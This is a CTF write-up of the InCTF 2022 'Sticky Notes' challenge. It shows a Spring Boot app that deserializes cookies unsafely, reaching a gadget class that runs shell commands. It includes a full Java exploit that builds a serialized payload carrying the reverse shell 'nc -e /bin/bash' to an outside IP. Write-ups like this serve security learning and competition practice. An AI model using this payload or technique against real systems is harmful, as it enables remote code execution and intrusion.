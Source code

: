 # Sticky Notes  

**category** : web\
**tag** : java, deserialization, reflection api\
**source** : [source with docker-compose.yml file](https://github.com/Ryn0K/CTFs/tree/master/inctf-2022-final/Sticky_notes)

## Analysis : 

we have spring boot application , need to analyse the [.jar](https://github.com/Ryn0K/CTFs/blob/master/inctf-2022-final/Sticky_notes/deployment/Sticky_notes.jar) file  at [https://jdec.app/](https://jdec.app/)

![img1](https://i.imgur.com/8cWS0oy.png)

At home.class we have all mappings to endpoints

```java
@GetMapping({"/"})
   public ModelAndView index() {
      ModelAndView modelAndView = new ModelAndView();
      modelAndView.setViewName("index");
      return modelAndView;
}

@GetMapping({"/add_notes"})
   public ModelAndView add_notes() {
      ModelAndView modelAndView = new ModelAndView();
      modelAndView.setViewName("addnote");
    return modelAndView;
}
```

![index](https://i.imgur.com/mciyqlM.png)

we can add notes
![addnotes](https://i.imgur.com/RJfgq5z.png)

```java
@PostMapping({"/add"})
   public String setCookie(HttpServletResponse response, final HttpServletRequest req) throws IOException {
      Sticky_note one = new Sticky_note(req.getParameter("note"), this.i);
      ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
      ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
      objectOutputStream.writeObject(one);
      objectOutputStream.close();
      String cookie_data = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
      Cookie cookie = new Cookie("notes" + this.i, cookie_data);
      ++this.i;
      response.addCookie(cookie);
      response.sendRedirect("/");
      return "note added";
   }

   @GetMapping({"/render"})
   public String readAllCookies(HttpServletRequest request) throws IOException, ClassNotFoundException, InterruptedException {
      String listString = "";
      Cookie[] cookies = request.getCookies();
      if (cookies != null) {
         new ArrayList();
         List<String> note_string = new ArrayList();
         List<String> values = (List)Arrays.stream(cookies).map((c) -> {
            return c.getValue();
         }).collect(Collectors.toList());

         for(int j = 0; j < values.size(); ++j) {
            if (((String)values.get(j)).indexOf("rO0") != -1) {
               byte[] decodedBytes = Base64.getDecoder().decode((String)values.get(j));
               ByteArrayInputStream ois = new ByteArrayInputStream(decodedBytes);
               ObjectInput in = new ObjectInputStream(ois);
               Sticky_note result = (Sticky_note)in.readObject();
               result.inv();
               note_string.add(result.get_notes());
            }
         }

         String s;
         for(Iterator var11 = note_string.iterator(); var11.hasNext(); listString = listString + s + ";") {
            s = (String)var11.next();
         }
      }

      return listString;
}
```

so notes added to cookies in base64 by **serializing** the Sticky_note class

and `/render` deserializing them using  `readObject()`, so this is vulnerable to deserialization vulnerability.


## finding gadgets

```java
public class Sticky_note implements Serializable {
   private static final long serialVersionUID = 8997955967313857188L;
   private int id;
   private String notes;
   public Eval_util data;

   public Sticky_note(String note, int id) {
      this.notes = note;
      this.id = id;
   }

   public String get_notes() {
      return this.notes;
   }

// this one 
   public int inv() throws IOException, InterruptedException {
      if (this.data != null) {
         this.data.execute();
      }

      return 1;
   }
}
```

`Sticky_note` having function `inv()` which of type `Eval_util` and 

```java
public class Eval_util implements Serializable {
   private static final long serialVersionUID = -8347155815694777921L;
   public String val;

   public int get_val() {
      return this.val.length();
   }

   public Object execute() throws IOException, InterruptedException {
      String[] cmd = new String[]{"/bin/sh", "-c", this.val};
      Runtime r = Runtime.getRuntime();
      r.exec(cmd);
      return null;
   }
}
```

we can execute `command` by chaining serializable payload to change `public String val`

and plus point here after deserializing the cookie in `/render`
it is automatically calling `inv()`.

```java
Sticky_note result = (Sticky_note)in.readObject();
result.inv(); //<<====================
note_string.add(result.get_notes());
```

## Exploitation

exploit [here](https://github.com/Ryn0K/CTFs/tree/master/inctf-2022-final/Sticky_notes/exploit)

i am using `reflection api` here, so reader should read that first cause i am not going detail overhere.

[exploit.java](https://github.com/Ryn0K/CTFs/tree/master/inctf-2022-final/Sticky_notes/exploit/exploit.java)

```java
import java.io.*;
import java.util.*;
import java.lang.reflect.*;
import com.example.demo.*;

class Main{
    public static void main(String[] args) throws NoSuchFieldException, SecurityException, IllegalArgumentException, IllegalAccessException, IOException {
        com.example.demo.Eval_util evutil = new com.example.demo.Eval_util(); // object of Eval_util class
        Field val = com.example.demo.Eval_util.class.getDeclaredField("val"); // get field we want to write 
        val.setAccessible(true); // set accessible true
        val.set(evutil,new String("nc -e /bin/bash 117.242.246.138 8882")); // bind object and change value with command

        com.example.demo.Sticky_note stnote = new com.example.demo.Sticky_note("payload executed", 0); // get object of Sticky_note class
        Field data = com.example.demo.Sticky_note.class.getDeclaredField("data"); // get field data which of type Eval_util
        data.setAccessible(true);
        data.set(stnote,evutil); // bind

        // base64 format
        ByteArrayOutputStream objectBOS = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(objectBOS);
        out.writeObject(stnote);
        out.close();
        String payload = Base64.getEncoder().encodeToString(objectBOS.toByteArray());
        System.out.println(payload);
    }
}
```

- compile gadget classes first

![classes](https://i.imgur.com/fJ2ihfo.png)

- compile payload(exploit.java) and get payload

![exploit](https://i.imgur.com/288XH1H.png)


- send payload and get shell

![hurrey](https://i.imgur.com/7jw3n0o.png)

- Get flag

![flag](https://i.imgur.com/IwbfSdl.png)
